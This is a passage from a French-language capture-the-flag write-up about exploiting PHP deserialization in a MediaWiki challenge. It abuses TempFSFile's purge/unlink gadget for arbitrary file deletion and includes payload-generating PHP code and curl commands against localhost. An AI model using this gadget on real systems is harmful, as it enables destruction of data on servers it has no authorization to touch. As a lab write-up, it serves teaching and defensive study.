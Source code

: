 Et l'implémentation de la fonction `purge`:

```php
/**
* Purge this file off the file system
*
* @return bool Success
*/
public function purge() {
	$this->canDelete = false; // done
	AtEase::suppressWarnings();
	$ok = unlink( $this->path );
	AtEase::restoreWarnings();

	unset( self::$pathsCollect[$this->path] );

	return $ok;
}
```

On voit que si le paramètre `canDelete` contient une valeur *vraie/truthy*, la fonction `purge` est appelée. Celle-ci appelle ensuite la fonction `unlink` sur le paramètre `path`.

Puisque l'on contrôle les valeurs de tous les paramètres lors de la désérialisation, nous pouvons utiliser l'appel à `unlink` pour supprimer le fichier de notre choix.

Voici le code qui génère notre payload:

```php
<?php
namespace Wikimedia\FileBackend\FSFile;

class FSFile {
	public $path;
}

class TempFSFile extends FSFile {
	public $canDelete;
}

$file = new TempFSFile();
$file->canDelete = true;
$file->path = "/var/www/html/images/thumb/f/fc/Trampolin.png/500px-Trampolin.png";

$payload = base64_encode(serialize($file));
echo $payload;
?>
```

Et la résolution du défi:

```bash
$ curl "http://localhost:8080/rest.php/?backdoor=$(php payload1.php)"
{"errorKey":"rest-no-match","messageTranslations":{"fr":"Le chemin relatif requis (/) ne correspondait à aucun gestionnaire connu","en":"The requested relative path (/) did not match any known handler"},"httpCode":404,"httpReason":"Not Found"}%

$ curl "http://localhost:8080/checkflag1.php"
Vive les trampolineux! flag-7aa47b8f0106691e
```
